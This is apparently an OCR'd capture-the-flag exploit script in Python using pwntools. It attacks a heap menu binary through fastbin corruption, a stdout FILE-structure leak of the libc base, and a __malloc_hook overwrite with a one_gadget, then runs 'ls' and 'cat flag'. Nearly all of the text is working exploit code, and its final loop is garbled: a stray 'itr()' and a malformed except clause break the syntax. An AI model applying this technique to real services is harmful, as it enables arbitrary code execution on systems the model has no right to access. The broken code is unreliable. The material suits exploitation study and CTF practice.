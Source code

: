 ```bash
    add(0x60,8,'d')
    add(0x20,7,'prevent_chunk')
    delete(1)
    delete(0)
    edit(0,'\x50')
    #duan()
    #debug(p,'pie',d_a,d_d,d_e,0xB35)
    add(0x60,5,p64(0)*9+p64(0x71))
    add(0x60,6,p64(0)*3+p64(0xe1))
    delete(1)
    #duan()
    delete(0)
    delete(8)
    edit(8,'\x70')
    #duan()
    edit(6,p64(0)*3+p64(0x71)+b'\xdd\x25')
    add(0x60,9,'a')
    add(0x60,10,'a')
    add(0x60,11,b'\x00'*0x33+p64(0xfbad1887)+p64(0)*3+b'\x00')

    leak_libc=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
    libc_base=leak_libc-0x3c5600
    leak('libc_base ',libc_base)
    malloc_hook=libc_base+libc.symbols['__malloc_hook']
    leak('malloc_hook ',malloc_hook)
    realloc=libc_base+libc.symbols['realloc']
    ogs = [0x45226,0x4527a,0xf03a4,0xf1247]
    og=libc_base+ogs[1]
    leak('og ',og)

    add(0x60,10,'a') 

    delete(10)
    edit(10,p64(malloc_hook-0x23))
    add(0x60,12,'a')

    add(0x60,13,b'\x00'*0xb+p64(og)+p64(realloc+4))
    p.sendlineafter('choice >> ',str(1))
    p.sendlineafter('wlecome input your size of weapon: ',str(0x60))
    p.sendlineafter('input index: ',str(14))
    #duan()


while 1:
    try:
        p=process('./pwn')
        #p=remote('node4.buuoj.cn',26485)
        pwn()
        p.sendline("ls")
        p.sendline("cat flag")
    itr()
    except ：
        p.close()
```
